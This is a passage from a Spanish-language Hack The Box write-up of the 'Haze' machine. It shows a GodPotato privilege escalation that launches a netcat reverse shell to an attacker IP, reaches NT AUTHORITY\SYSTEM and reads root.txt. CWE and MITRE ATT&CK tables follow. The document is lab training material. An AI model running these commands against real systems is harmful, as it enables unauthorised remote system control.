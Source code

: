 ```powershell
PS C:\Windows\Temp\Priv> ./GodPotato-NET4.exe -cmd "C:\Windows\Temp\Priv\nc64.exe 10.10.14.249 4443 -e cmd.exe"
```

A los pocos segundos, se estableció la conexión entrante en el listener, esta vez bajo el contexto del usuario `NT AUTHORITY\SYSTEM`.

```powershell
	... connect to [10.10.14.249] from (UNKNOWN) [10.10.11.61] 54755

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/654/" target="_blank">Haze Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }

---
## Common Weakness

| CWE ID | Name | Description |
| :--- | :--- | :--- |
| <a id="cwe-22" href="https://cwe.mitre.org/data/definitions/22.html" target="_blank">CWE-22</a> | <a href="#path-traversal" class="vuln-ref">Path Traversal</a> | Improper limitation of a pathname to a restricted directory. |
| <a id="cwe-522" href="https://cwe.mitre.org/data/definitions/522.html" target="_blank">CWE-522</a>  | <a href="#insufficiently-protected-credentials" class="vuln-ref">Insufficiently Protected Credentials</a> | The product uses an insecure method to store authentication credentials. |
| <a id="cwe-266" href="https://cwe.mitre.org/data/definitions/266.html" target="_blank">CWE-266</a>  | <a href="#incorrect-privilege-assignment" class="vuln-ref">Incorrect Privilege Assignment</a> | The product incorrectly assigns a privilege to a particular actor. |
| <a id="cwe-922" href="https://cwe.mitre.org/data/definitions/922.html" target="_blank">CWE-922</a>  | <a href="#insecure-storage-of-sensitive-information" class="vuln-ref">Insecure Storage of Sensitive Information</a> | The product stores sensitive information without properly limiting access by unauthorized actors. |
| <a id="cwe-91" href="https://cwe.mitre.org/data/definitions/91.html" target="_blank">CWE-91</a> | <a href="#xml-injection" class="vuln-ref">XML Injection</a> | The product does not properly neutralize special elements that are used in XML |
| <a id="cwe-94" href="https://cwe.mitre.org/data/definitions/94.html" target="_blank">CWE-94</a> | <a href="#code-injection" class="vuln-ref">Code Injection</a> | The product constructs a code segment using externally-influenced input from an upstream component. |

---
## MITRE ATT&CK Matrix

| Tactics | Techniques | Sub-Techniques | ID |
| :--- | :--- | :--- | :---: |
| [**`Reconnaissance`**](#reconnaissance) | | | <a href="https://attack.mitre.org/tactics/TA0043/" target="_blank">**`TA0043`**</a>
| | [*Active Scanning*](#active-scanning) | | <a href="https://attack.mitre.org/techniques/T1595/" target="_blank">*T1595*</a>
| | | [*Scanning IP Blocks*](#active-scanning) | <a href="https://attack.mitre.org/techniques/T1595/001/" target="_blank">*T1595.001*</a>
| | | [*Vulnerability Scanning*](#active-scanning) | <a href="https://attack.mitre.org/techniques/T1595/002/" target="_blank">*T1595.002*</a>
| | [*Gather Victim Host Information*](#active-scanning) | | <a href="https://attack.mitre.org/techniques/T1592/" target="_blank">*T1592*</a>
| | | [*Software*](#active-scanning) | <a href="https://attack.mitre.org/techniques/T1592/002/" target="_blank">*T1592.002*</a>|
| | [*Search Victim-Owned Websites*](#search-victim-owned-websites) | | <a href="https://attack.mitre.org/techniques/T1594/" target="_blank">*T1594*</a>
| [**`Initial Access`**](#initial-access) | | | <a href="https://attack.mitre.org/tactics/TA0001/" target="_blank">**`TA0001`**</a>
| | [*Exploit Public-Facing Application*](#exploit-public-facing-application) | | <a href="https://attack.mitre.org/techniques/T1190/" target="_blank">*T1190*</a>
| [*Credential Access*](#initial-access) | | | <a href="https://attack.mitre.org/tactics/TA0006/" target="_blank">*TA0006*</a>
| | [*Brute Force*](#brute-force) | | <a href="https://attack.mitre.org/techniques/T1110/" target="_blank">*T1110*</a>
| | | [*Password Cracking*](#brute-force) | <a href="https://attack.mitre.org/techniques/T1110/002/" target="_blank">*T1110.002*</a>
| [*Discovery*](#initial-access) | | | <a href="https://attack.mitre.org/techniques/TA0007/" target="_blank">*TA0007*</a>